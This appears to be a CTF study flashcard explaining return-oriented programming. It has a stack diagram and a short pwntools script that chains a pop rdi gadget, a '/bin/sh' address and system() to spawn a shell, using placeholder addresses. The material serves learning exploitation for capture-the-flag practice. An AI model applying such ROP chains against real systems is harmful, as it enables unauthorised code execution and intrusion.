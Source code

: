 ```yaml
---
aliases:
  - Return oriented programming 
tags:
  - flashcard/active/ctf
---
```


# Return oriented programming
Problem: We can't execute new code (NX)
Solution: Reuse existing code pieces!
```smali
Example - calling system("/bin/sh"):
[buffer fill     ] 
[pop rdi gadget  ] <- Return here first
["/bin/sh" addr  ] <- Gets popped into rdi
[system addr     ] <- Then return here
```
It's like building with Lego:
- Can't create new blocks (NX)
- But can {{arrange existing blocks (gadgets)}}
```py
from pwn import *
pop_rdi = 0x40052  # Found using ROPgadget

# Build ROP chain
payload = b"A" * 40                  # Buffer fill
payload += p64(pop_rdi)             # Use existing code
payload += p64(binsh_addr)          # "/bin/sh" string
payload += p64(system_addr)         # system() function

# This uses existing code to run:
# system("/bin/sh")
```
<!--SR:!2024-12-15,1,230-->
